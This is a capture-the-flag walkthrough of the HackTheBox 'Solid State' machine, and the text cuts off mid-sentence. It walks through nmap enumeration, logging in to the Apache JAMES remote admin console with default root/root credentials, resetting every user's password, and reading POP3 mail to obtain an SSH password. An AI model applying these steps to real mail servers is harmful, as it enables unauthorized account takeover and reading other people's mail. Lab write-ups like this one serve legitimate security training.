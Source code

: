 ```yaml
---
layout: post
title: "HackTheBox: Solid State Boot2User"
description: "hackthebox solid state walkthrough"
thumb_image: "TODO"
tags: [web, ctf, overthewire]
permalink: /posts/SolidState
---
```


## Enumeration
We'll start off with nmap scans.

My methodology on networks that we have good access to is to initially do a SYN scan of all ports and then do more thorough scanning of those we find to be open. It's good practice to keep an eye on this initial scanning, if we see it's running slowly it may be that we're tripping a firewall.

So we start off with a SYN scan (-sS), of all ports (-p-), there's no DNS in this environment so let's turn off name resolution (-n), and save output in all formats with the filename "allports" (-oA allports).

nmap -n -p- -sS -oA allports 10.10.10.51:

```
# Nmap 7.60 scan initiated Mon May 28 02:40:13 2018 as: nmap -n -p- -sS -oA allports 10.10.10.51
Nmap scan report for 10.10.10.51
Host is up (0.066s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
119/tcp  open  nntp
4555/tcp open  rsip

# Nmap done at Mon May 28 02:40:55 2018 -- 1 IP address (1 host up) scanned in 41.72 seconds
```

Now let's enumerate these open ports (-p 22, 25, 80, 110, 119, 455) using service detection (-sV) and default scripts (-sC), saving all outputs with the filename "thorough" (-oA thorough) and with name resolution still off (-n):

```
# Nmap 7.60 scan initiated Mon May 28 02:42:30 2018 as: nmap -p 22,25,80,110,119,4555 -sC -sV -oA thorough -n 10.10.10.51
Nmap scan report for 10.10.10.51
Host is up (0.065s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey:
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (EdDSA)
25/tcp   open  smtp        JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.11 [10.10.14.11]),
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2

# Nmap done at Mon May 28 02:42:57 2018 -- 1 IP address (1 host up) scanned in 26.92 seconds
```

So we have 6 ports open. From the service detection results it appears we have a mail server, running apache JAMES. Time to work out a plan of attack.

**Port 22** is showing a reasonably modern SSH service, this will be our lowest priority to look at.

**Port 25** is SMTP, we could see if [SMTP enumeration](https://pentestlab.blog/2012/11/20/smtp-user-enumeration/) is a possibility, this is a medium priority.

**Port 80** is HTTP, having a quick look in a browser it looks like a basic web app, definitely something we'll want to check out, we'll note this down as a high priority and start nikto scanning in the background.

**Port 110** is POP3, but we don't have any credentials, once again a low priority at the moment.

**Port 119** is NNTP, quick google indicates it's something to do with usenet, we'll say it's a low priority for now.

**Port 4555** is remote admin for JAMES. Sirens should be going off when see the words remote and admin. Let's make this our top priority.

## Poking at Remote Admin
Connecting to the port with netcat ```nc -nv 10.10.10.51 4555``` we're prompted for a username and password.

Trying admin/admin kicks us back to the start of the prompt where we can immediately try again. It doesn't appear that there are cooldowns on repeated attempts so we can probably script a bruteforcer if we get stuck.

Let's quickly try the obvious candidates first, root/password, admin/password etc. We don't have to try for long as root/root grants us access!

```
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
```

Help gives us a list of commands:

```
help
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

"Display existing accounts" sounds like the sort of thing we'd be interested in, and while we're at it let's change the password for each user to be their username:

```
countusers
Existing accounts 5

listusers
user: james
user: thomas
user: john
user: mindy
user: mailadmin

setpassword james james
Password for james reset

setpassword thomas thomas
Password for thomas reset

setpassword john john
Password for john reset

setpassword mindy mindy
Password for mindy reset

setpassword mailadmin
Password for mailadmin reset
```

So we now have username and passwords for a bunch of users. That POP3 port that we didn't have credentials for might make itself useful after all!

We can telnet to port 110 ```telnet 10.10.10.51 110```. POP3 is an extremely simple protocol to interact with. From the [RFC](https://www.ietf.org/rfc/rfc1939.txt) our commands are:


      Minimal POP3 Commands:

         USER name               valid in the AUTHORIZATION state
         PASS string
         QUIT
         STAT                    valid in the TRANSACTION state
         LIST [msg]
         RETR msg
         DELE msg
         NOOP
         RSET
         QUIT

Logging in with each user and checking for email, we find for Mindy:

```
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login.
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path.

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

## Shell

To get a user shell we can simply log in via SSH using the credentials given in the email. From here we can cat the user flag.

Halfway there. Stay posted for part 2 where we get full root credentials.

## Notes

Guessing the default creds for the remote admin tool was pure luck, a sensible next step would have been searching for JAMES exploits. ```searchsploit apache james``` shows us a python exploit https://www.exploit-db.com/exploits/35513/ We did't have the requisite authenticated user at that moment, but reading through the exploit would have also given us the default creds "root" "root".

That exploit is also worth a
